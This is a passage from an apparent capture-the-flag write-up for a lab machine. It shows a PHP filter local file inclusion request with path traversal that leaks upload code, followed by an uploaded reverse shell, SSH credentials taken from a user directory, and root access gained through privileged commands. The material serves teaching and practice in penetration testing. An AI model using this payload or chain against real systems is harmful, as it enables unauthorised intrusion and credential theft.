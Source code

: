 `POST http://10.10.xx.xx:1337/file1010111/index.php?file=php://filter/convert.base64-encode/resource=../upload-cv00101011/index.php HTTP/1.1`

The above returns a base-64 string that decodes to the contents of `index.php`. 

```php
<?php
[...]
		
	$targetDir = "upload_thm_1001/"; // Directory where uploaded files will be stored
	$targetFile = $targetDir . basename($_FILES["file"]["name"]); // Path of the uploaded file

	// Check if file is a valid upload
	if (move_uploaded_file($_FILES["file"]["tmp_name"], $targetFile)) {
	    echo '<h1>File uploaded successfully! Maybe look in source code to see the path<span style=" display: none;">in /upload_thm_1001 folder</span> <h1>';
	} else {
	    echo "Error uploading file.";
	}

[...]
```
{: .nolineno }

Based on the code snippet above, our files can be found at `http://10.10.xx.xx:1337/upload-cv00101011/upload_thm_1001/`. We set up a listener on our box, browse to this directory, and click on our reverse shell file to trigger the shell.

### 🏁 Capture the User Flag

In our reverse-shell as www-data, we enumerate to find that z-------’s directory contains a file with their ssh credentials.

![Screenshot 2023-09-03 at 8.24.15 AM.png](/assets/expose/Screenshot_2023-09-03_at_8.24.15_AM.png)

We use these credentials to ssh back in as z------- and read the user flag from our new home directory.

### 🏁 Capture the Root Flag

Enumerating again as z-------, we notice a couple of commands with elevated privileges.  

![Screenshot 2023-09-03 at 8.21.41 AM.png](/assets/expose/Screenshot_2023-09-03_at_8.21.41_AM.png)

Using the command `find /root/*` we can list out the files under /root. 

Using `nano /root/flag.txt` we can open the root flag in nano.